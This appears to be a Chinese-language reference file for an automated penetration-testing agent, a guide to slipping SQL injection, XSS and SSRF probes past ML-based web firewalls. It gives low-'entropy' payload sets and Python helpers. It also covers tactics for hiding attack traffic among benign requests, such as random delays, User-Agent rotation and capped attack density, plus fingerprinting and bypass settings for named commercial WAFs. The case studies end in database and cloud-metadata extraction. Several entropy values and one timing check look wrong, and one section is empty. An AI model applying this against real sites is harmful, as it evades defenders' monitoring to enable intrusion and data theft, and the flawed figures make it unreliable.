

# 自适应 WAF 对抗框架 (Adaptive WAF Evasion)

> **核心认知**：2026 年的 WAF 不是规则引擎，而是 ML 驱动的异常检测系统
> **对抗原则**：低熵 > 低频 > 低特征 > 渐进式
> **失败策略**：被拦 3 次 → 立即降级，而不是盲目重试

---

## 0. 为什么传统绕过失效了

### 0.1 传统思路（2020 年有效，2026 年失效）

```sql
-- 被拦了？加注释
SELECT/**/user,pass/**/FROM/**/users

-- 还被拦？URL 编码
%53%45%4c%45%43%54%20user

-- 还被拦？大小写混淆
SeLeCt UsEr FrOm UsErS
```

**为什么失效**：现代 WAF 不看这些表面特征，它看：
- **请求熵**：你的 payload 和正常流量的信息熵差异
- **请求序列**：你连续发了 10 个 SQLi payload，哪怕每个都不同
- **行为特征**：你在 1 分钟内测了 50 个参数，正常用户不会这样

---

### 0.2 现代 WAF 的三层防御

| 层级 | 检测方式 | 触发后果 | 绕过难度 |
|------|---------|---------|---------|
| **L1: 签名拦截** | 关键词/正则（传统） | 403 Forbidden | ⭐ 容易 |
| **L2: 异常检测** | 请求熵 / 序列模式 / 频率 | 动态限流（第 3 次开始慢响应） | ⭐⭐⭐ 困难 |
| **L3: 行为分析** | 用户画像 / 会话上下文 | 封禁 Session/IP | ⭐⭐⭐⭐⭐ 极难 |

**关键洞察**：
- L1 可以用传统技巧绕过
- L2 和 L3 必须用"模拟正常用户"的策略
- **大部分 2026 年的 WAF 都有 L2，头部厂商有 L3**

---

## 1. Payload 熵计算（判断是否会触发 L2）

### 1.1 信息熵公式

```python
import math
from collections import Counter

def calculate_entropy(payload: str) -> float:
    """计算 payload 的香农熵"""
    if not payload:
        return 0
    
    # 字符频率
    freq = Counter(payload)
    length = len(payload)
    
    # 香农熵
    entropy = -sum((count/length) * math.log2(count/length) 
                   for count in freq.values())
    
    return entropy

# 示例
print(calculate_entropy("id=1"))                    # 低熵：1.92
print(calculate_entropy("id=1' AND 1=1--"))        # 中熵：3.17
print(calculate_entropy("id=1%27%20AND%201%3D1"))  # 高熵：3.95（URL 编码后）
```

### 1.2 熵阈值参考

| 熵值范围 | 判断 | WAF 反应 | 策略 |
|---------|------|---------|------|
| **< 2.5** | 🟢 低熵 | 几乎不拦 | 优先使用 |
| **2.5-3.5** | 🟡 中熵 | 可能触发 L2 | 谨慎使用，控制频率 |
| **> 3.5** | 🔴 高熵 | 大概率拦截 | 避免，或仅用于确认阶段 |

### 1.3 降熵技巧

| 高熵 Payload | 熵值 | 降熵改写 | 新熵值 | 效果 |
|-------------|------|---------|--------|------|
| `id=1' OR '1'='1` | 3.2 | `id=1'||'` | 2.1 | ✅ 某些 ORM 下等价 |
| `id=1 UNION SELECT NULL` | 3.8 | `id=-1` + 后续步骤渐进 | 1.5 | ✅ 先用最简单的确认注入点 |
| `id=1%27%20AND%201%3D1` | 3.95 | `id=1' AND 1=1` | 3.17 | ⚠️ 直接用明文，不编码 |
| `<script>alert(1)</script>` | 3.4 | `<svg/onload=alert(1)>` | 3.1 | ✅ 更短，熵更低 |

**核心原则**：
- 能用短 payload 就不用长 payload
- 能用明文就不用编码（编码增加熵）
- 能用单引号就不用双引号 + 注释（注释增加熵）

---

## 2. 请求序列伪装（对抗 L2 序列检测）

### 2.1 问题：连续攻击模式

**错误做法**（会触发 L2）：
```
Request 1: id=1' AND 1=1
Request 2: id=1' AND 1=2
Request 3: id=1 AND SLEEP(5)
Request 4: id=1 UNION SELECT NULL
Request 5: id=1 UNION SELECT NULL,NULL
→ WAF 检测到：连续 5 个请求都在测 SQLi → 限流/封禁
```

**正确做法**（伪装成正常用户）：
```
Request 1: id=1                          # 正常请求
Request 2: id=2                          # 正常请求
Request 3: id=1' AND 1=1                # 测试（低熵）
Request 4: id=3                          # 正常请求（降低攻击密度）
Request 5: id=1'||'                     # 测试（变换 payload）
Request 6: id=4                          # 正常请求
Request 7: category=electronics          # 测试其他参数（分散特征）
Request 8: id=1 AND 1=2                 # 再测 id（间隔足够长）
→ WAF 看到：攻击请求占比 < 30%，且有间隔，难以判断
```

### 2.2 序列伪装规则

| 规则 | 说明 | 实现 |
|------|------|------|
| **攻击密度 < 30%** | 每 3 个正常请求后才发 1 个测试 | `normal_requests * 3 >= attack_requests` |
| **Payload 变化率 > 70%** | 连续 10 个测试，至少 7 个 payload 不同 | 动态生成等价 payload |
| **参数轮换** | 不要连续测同一个参数 | `test(id) → test(category) → test(page) → test(id)` |
| **时间间隔随机** | 请求间隔 1-5 秒随机 | `sleep(random.uniform(1, 5))` |
| **User-Agent 轮换** | 每 10 个请求换一个 UA | 预设 10 个常见 UA 池 |

### 2.3 集成到 http_fuzzer

```python
# 伪代码：自适应序列生成
def adaptive_sqli_test(param, values):
    results = []
    attack_count = 0
    normal_count = 0
    
    for i, value in enumerate(values):
        # 计算当前攻击密度
        if attack_count > 0:
            density = attack_count / (attack_count + normal_count)
        else:
            density = 0
        
        # 如果密度 > 30%，插入正常请求
        if density > 0.3:
            # 发送正常请求
            http_fuzzer(f"{param}={i}", concurrent=1)
            normal_count += 1
            sleep(random.uniform(1, 3))
        
        # 发送测试请求
        result = http_fuzzer(f"{param}={value}", concurrent=1)
        results.append(result)
        attack_count += 1
        
        # 随机间隔
        sleep(random.uniform(2, 5))
    
    return results
```

---

## 3. 限流探测（判断是否触发 L2）

### 3.1 限流特征识别

| 限流类型 | 特征 | 检测方法 |
|---------|------|---------|
| **硬拦截** | 直接返回 403/429 | 状态码 |
| **软限流** | 响应时间突然变长（50ms → 5000ms） | 时间对比 |
| **渐进式限流** | 前 3 次正常，第 4 次开始慢 | 时间序列分析 |
| **Token Bucket** | 短时间内可以快速，长期被限 | 连续发送 + 间隔后再发 |

### 3.2 探测脚本

```python
def detect_rate_limiting():
    """探测是否触发限流"""
    times = []
    
    # 连续发 10 个相同请求
    for i in range(10):
        start = time()
        resp = http_fuzzer("?id=1", concurrent=1)
        elapsed = time() - start
        times.append(elapsed)
        
        print(f"Request {i+1}: {elapsed:.3f}s, status={resp.status_code}")
    
    # 分析时间趋势
    if times[-1] > times[0] * 3:  # 最后一次是第一次的 3 倍
        print("[DETECTED] 渐进式限流")
        return "progressive"
    
    if times[-5:] > [2.0] * 5:  # 最后 5 次都很慢
        print("[DETECTED] 触发限流")
        return "hard"
    
    print("[OK] 无限流")
    return None
```

### 3.3 触发限流后的降级策略

| 场景 | 策略 |
|------|------|
| **探测到硬限流** | 立即停止测试该参数，等待 60s 后换参数 |
| **探测到软限流** | 降低请求频率（从 1 req/s 降到 1 req/10s） |
| **探测到渐进式限流** | 每测 3 次就等待 30s（重置 Token Bucket） |
| **连续 3 次 403** | 标记 `[WAF_ACTIVE]`，切换到"最低熵模式" |

---

## 4. 最低熵模式（L2 激活后的保守策略）

### 4.1 SQLi 最低熵 Payload 集

| Payload | 熵值 | 说明 | 使用场景 |
|---------|------|------|---------|
| `id=1'` | 1.8 | 单引号探测 | First-pass |
| `id=1'||'` | 2.1 | 字符串拼接（某些 ORM 有效） | First-pass |
| `id=1' '` | 1.9 | 单引号 + 空格 | First-pass |
| `id=1%0a` | 1.5 | 换行符（部分 parser 漏过） | 确认阶段 |
| `id=1'--` | 2.0 | 注释（最简单） | 确认阶段 |

**使用流程**：
```
1. 正常请求 id=1 → 基线
2. 最低熵探测 id=1' → 如果 500 → 确认注入点
3. 如果 403 → WAF 拦截 → 等待 60s
4. 再测 id=1'||' → 如果通过 → 继续
5. 如果还是 403 → 标记 [WAF_TOO_STRICT]，放弃该参数
```

### 4.2 SSRF 最低熵 Payload 集

| Payload | 熵值 | 说明 |
|---------|------|------|
| `url=http://[::1]` | 2.3 | IPv6 localhost（部分黑名单漏过） |
| `url=http://127.1` | 2.0 | 简写形式 |
| `url=http://0` | 1.5 | 0.0.0.0 |
| `url=http://localhost` | 2.5 | 最常见（也最容易被拦） |

### 4.3 XSS 最低熵 Payload 集

| Payload | 熵值 | 说明 |
|---------|------|------|
| `<svg/onload=alert(1)>` | 3.1 | 无空格，短 |
| `` | 3.4 | 常见但熵略高 |
| `'"><svg/onload=alert(1)>` | 3.5 | 闭合引号 + XSS |

---

## 5. 动态降级决策树



---

## 6. WAF 指纹识别（判断对手是谁）

### 6.1 常见 WAF 特征

| WAF | 识别特征 | 拦截模式 | 绕过重点 |
|-----|---------|---------|---------|
| **阿里云盾** | `Server: Tengine` + 特征 403 页面 | 对 `UNION SELECT` 极敏感 | 用 `union(select)` / `union%0aselect` |
| **腾讯 T-Sec** | `X-NWS-LOG-UUID` 响应头 | 对完整 payload 敏感 | 分散 payload 到多参数 |
| **Cloudflare** | `Server: cloudflare` | 基于 ML，看请求序列 | 降低攻击密度 < 20% |
| **AWS WAF** | `X-Amzn-RequestId` | 可自定义规则 | 探测规则宽松度 |
| **ModSecurity** | `406 Not Acceptable` | 基于 OWASP CRS 规则 | 用 CRS 绕过技巧 |
| **Imperva** | 特征 JS 挑战页面 | 行为分析强 | 模拟真实用户操作 |

### 6.2 识别脚本

```python
def identify_waf():
    """识别 WAF 类型"""
    resp = http_fuzzer("?id=1")
    
    # 检查响应头
    headers = resp.headers
    if "tengine" in headers.get("Server", "").lower():
        return "aliyun"
    if "X-NWS-LOG-UUID" in headers:
        return "tencent"
    if "cloudflare" in headers.get("Server", "").lower():
        return "cloudflare"
    
    # 检查响应体
    body = resp.body
    if "aliyundun" in body.lower():
        return "aliyun"
    
    return "unknown"
```

### 6.3 针对性策略

```python
WAF_STRATEGIES = {
    "aliyun": {
        "max_attack_density": 0.2,  # 20% 攻击密度
        "sleep_between": (3, 8),    # 3-8 秒间隔
        "avoid_keywords": ["union", "select", "information_schema"],
        "prefer_payloads": ["union(select)", "union%0aselect"],
    },
    "cloudflare": {
        "max_attack_density": 0.15,  # 更低密度
        "sleep_between": (5, 10),
        "rotate_ua": True,            # 必须轮换 UA
    },
    "unknown": {
        "max_attack_density": 0.3,   # 保守策略
        "sleep_between": (2, 5),
    }
}
```

---

## 7. 集成到 P1 信号预检

### 更新 agent-protocol.md §P1

```markdown
## P1: 信号预检（WAF 感知版）

1. **环境探测**（新增）：
   - 识别 WAF 类型 → 加载对应策略
   - 探测限流阈值 → 记录到 assets.md

2. **First-pass 测试**（更新）：
   - 计算 Payload 熵 → 优先用低熵 payload
   - 控制攻击密度 < 30%
   - 插入正常请求伪装

3. **拦截响应**（新增）：
   - 403/429 × 1 → 换最低熵 payload
   - 403/429 × 3 → 标记 [WAF_ACTIVE]，降级
   - 响应时间突增 → 探测限流，降低频率

4. **记录 WAF 状态**：
   ```markdown
   ## WAF 情报

   | 项目 | 值 |
   |------|-----|
   | WAF 类型 | 阿里云盾 |
   | 拦截模式 | L2 渐进式限流 |
   | 触发阈值 | 3 次攻击请求后开始限流 |
   | 绕过策略 | 攻击密度 < 20%，间隔 5-8s |
   ```
```

---

## 8. Grep 速查

```bash
# 查询 WAF 指纹
grep -A 20 "WAF 指纹识别" references/adaptive-waf-evasion.md

# 查询降熵技巧
grep -A 15 "降熵技巧" references/adaptive-waf-evasion.md

# 查询最低熵 Payload
grep -A 20 "最低熵 Payload 集" references/adaptive-waf-evasion.md

# 查询限流探测
grep -A 25 "限流探测" references/adaptive-waf-evasion.md
```

---

## 9. 实战案例

### 案例 1：阿里云盾环境

```
[Phase 1] 探测 WAF
→ 识别到：阿里云盾（Tengine）
→ 加载策略：攻击密度 < 20%，避免 "union select"

[Phase 2] First-pass
→ 测试 id=1' AND 1=1 → 403
→ 切换 id=1'||' → 200，响应长度变化
→ 置信度 55%（灰色信号）

[Phase 3] 追加测试（低密度）
→ 发 3 个正常请求（id=2, id=3, id=4）
→ 等待 6 秒
→ 测试 id=1' AND 1=2 → 200，响应长度不同
→ 置信度 75%（确认 SQLi）

[Phase 4] 深度利用（极低密度）
→ 每测 1 次 SQLi，发 5 个正常请求
→ 间隔 8-12 秒
→ 成功提取数据库名，未触发封禁
```

### 案例 2：Cloudflare 环境

```
[Phase 1] 探测 WAF
→ 识别到：Cloudflare
→ 加载策略：攻击密度 < 15%，必须轮换 UA

[Phase 2] First-pass
→ 测试 url=http://127.0.0.1 → 403
→ 切换 url=http://[::1] → 200，时间差异显著
→ 置信度 65%

[Phase 3] 追加测试（超低密度 + UA 轮换）
→ 轮换 10 个不同 UA
→ 攻击密度降到 12%（每 8 个正常请求后 1 个测试）
→ 测试云元数据 → 成功
→ 置信度 90%（确认 SSRF）
```

---

**版本**: v1.0  
**更新日期**: 2026-06-08  
**适用场景**: 2026+ 年现代 WAF 环境的渗透测试
